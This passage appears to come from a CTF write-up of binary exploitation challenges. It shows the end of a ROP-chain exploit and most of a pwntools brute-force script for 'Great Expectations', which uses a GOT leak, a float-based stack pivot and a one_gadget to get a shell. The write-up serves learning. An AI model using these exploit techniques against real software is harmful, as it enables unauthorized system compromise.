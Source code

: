 ```python
        [pop_rdx, 3, 0] + [set_r9, pop_rcx, 0] + [pop_rcx, 0x2] + [libc.sym.mmap] +
        # write(1, 0x1337000, 0x100)
        [pop_rax, 1] + [pop_rdi, 1] + [pop_rsi, 0x1337000] + [pop_rdx, 0x100, 0]
        + [syscall]


})

pause()
p.sendlineafter(b"> ", payload)
p.sendlineafter(b"> ", b"4")

p.interactive()
```

Interestingly, the author provided ROP gadgets in the binary that was easy to use. Unfortunately, I overlooked it and had to get creative with the glibc gadgets.

## Great Expectations

Very straightforward challenge that allows us to stack pivot using float values that we provide, and places a one byte canary as 'security'. 

I used a brute force approach, which should work in ~50 tries.

```python
from pwn import *
import struct

context.terminal = ["tmux", "neww"]
context.binary = elf = ELF("./chall")
libc = ELF("./lib/libc.so.6")

i = 0
with log.progress("enumerating") as pro:
    while True:
        i += 1
        pro.status(f"{i}")
        with context.quiet:
            p = remote("win.the.seetf.sg", 2004)
            # p = process("./chall")

        r1 = b"A"*16 + p64(0x401313) + p64(elf.got.puts) + p64(elf.sym.puts) + p64(0x401233)

        p.sendafter(b"tale.\n", r1 * (0x107 // len(r1)))
        p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xDDDDDDDD))[0]).encode())
        p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xDDDDDDDD))[0]).encode())
        p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xCCE841DD))[0]).encode())

        try:
            leak = unpack(p.recvuntil(b"I live my life taking chances", drop=True).strip(b"\n"), "all")
            log.info(f"leak at {hex(leak)}")
            libc.address = leak - libc.sym.puts

            log.info(f"libc base @ {hex(libc.address)}")
            one_gadget = 0xe3b01+libc.address
            r2 = b"A"*16 + p64(one_gadget)

            p.sendafter(b"tale.\n", r2 * (0x107 // len(r2)))
            p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xDDDDDDDD))[0]).encode())
            p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xDDDDDDDD))[0]).encode())
            p.sendlineafter(b"number!", str(struct.unpack("<f", p32(0xCC0841DD))[0]).encode())

```